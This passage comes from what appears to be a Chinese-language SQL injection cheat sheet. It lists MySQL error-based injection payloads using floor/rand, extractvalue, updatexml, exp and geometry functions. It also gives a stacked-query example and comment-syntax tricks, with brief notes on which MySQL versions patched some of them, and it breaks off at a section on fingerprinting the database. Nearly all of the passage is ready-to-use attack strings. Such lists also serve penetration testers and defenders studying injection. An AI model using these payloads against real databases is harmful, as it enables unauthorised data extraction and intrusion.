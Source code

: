 -   select 1 from (select count(\*),concat(version(),floor(rand(0)\*2))x from information_schema.tables group by x)a

-   extractvalue(1, concat(0x5c,(select user())))

-   updatexml(0x3a,concat(1,(select user())),1)

-   exp(\~(SELECT \* from(select user())a))

-   ST_LatFromGeoHash((select \* from(select \* from(select user())a)b))

-   GTID_SUBSET(version(), 1)

#### 基于geometric的报错注入

-   GeometryCollection((select \* from (select \* from(select user())a)b))

-   polygon((select \* from(select \* from(select user())a)b))

-   multipoint((select \* from(select \* from(select user())a)b))

-   multilinestring((select \* from(select \* from(select user())a)b))

-   LINESTRING((select \* from(select \* from(select user())a)b))

-   multipolygon((select \* from(select \* from(select user())a)b))

**其中需要注意的是**，基于 exp 函数的报错注入在 MySQL 5.5.49 后的版本已经不再生效，具体可以参考[commit 95825f](https://github.com/mysql/mysql-server/commit/95825fa28a7e84a2f5dbdef5241078f7055c5b04) 。而以上列表中基于 geometric 的报错注入在这个 [commit 5caea4](https://github.com/mysql/mysql-server/commit/5caea4a995130cd7c82574acc591ff7c46d9d978) 中被修复，在 5.5.x 较后的版本中同样不再生效。

#### 堆叠注入

-   ;select 1

#### 注释符

-   \#

-   \--+

-   /\*xxx\*/

-   /\*!xxx\*/

-   /\*!50000xxx\*/

#### 判断过滤规则

-   是否有 trunc

-   是否过滤某个字符

-   是否过滤关键字

-   slash 和编码

#### 获取信息

- **判断数据库类型**
